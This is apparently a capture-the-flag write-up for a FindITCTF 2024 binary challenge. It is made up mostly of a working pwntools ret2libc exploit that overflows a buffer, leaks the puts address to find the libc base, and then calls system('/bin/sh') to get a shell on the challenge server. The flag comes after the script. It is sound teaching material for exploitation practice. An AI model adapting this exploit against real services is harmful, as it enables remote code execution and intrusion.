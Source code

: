 ### Solution

In the zip file given, there are binary also with libc files. Unfortunately i sugest it will be something related with ret2libc after some time learning something new i found interesting writeup [https://ctftime.org/writeup/14404](https://ctftime.org/writeup/14404)  looks the same with my condition because i need to find the libc-base address first and it needs some adress that can be find from libc file, following the writeup ive come to successfull script, Here is my script to perform ret2libc:

```
import struct
import socket
from pwn import *

context(arch = 'i386', os = 'linux', endian = 'little')

puts_plt = 0x08049070
puts_got = 0x804c018       #objdump -R everything4 | grep puts
main = 0x080491eb              #objdump -D everything4 | grep main

buf = b""
buf += b"A"*2036             
buf += p32(puts_plt)         
buf += p32(main)             
buf += p32(puts_got)         

# s = process("everything4")
s = remote('103.191.63.187', 5001)
log.info("Stage 1: ...Leaking Memory")
s.recvuntil("Step forward for synchronization:\n\n")
s.sendline(buf)
received = s.recvline()
print(received)
leaked_puts_got = received.strip()
leaked_puts_got = u32(leaked_puts_got)
addrs = hex(leaked_puts_got)
leaked_puts_got = int(addrs, 16)
log.success("Leaked remote libc address: " + addrs)
print('')

#################### STAGE2 ####################

libc = ELF("libc.so.6")

libc_base = leaked_puts_got - libc.sym.puts
system_addr = libc_base + libc.sym["system"]
fake_addr = 0xbeefdead
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh\x00"))

buf = b""
buf += b"A"*2036      
buf += p32(system_addr)
buf += p32(fake_addr)     
buf += p32(bin_sh_addr)

log.info("Stage 2: ...Obtaining Shell ")
s.sendline(buf)
s.interactive()
```

![Untitled](FinditCTF%202024%20f1afe1fa67b14654b02a96d46a2eac51/Untitled%203.png)

### Flag

`FindITCTF{Pl3as3_3x!t_th3_pl4tf0rm}`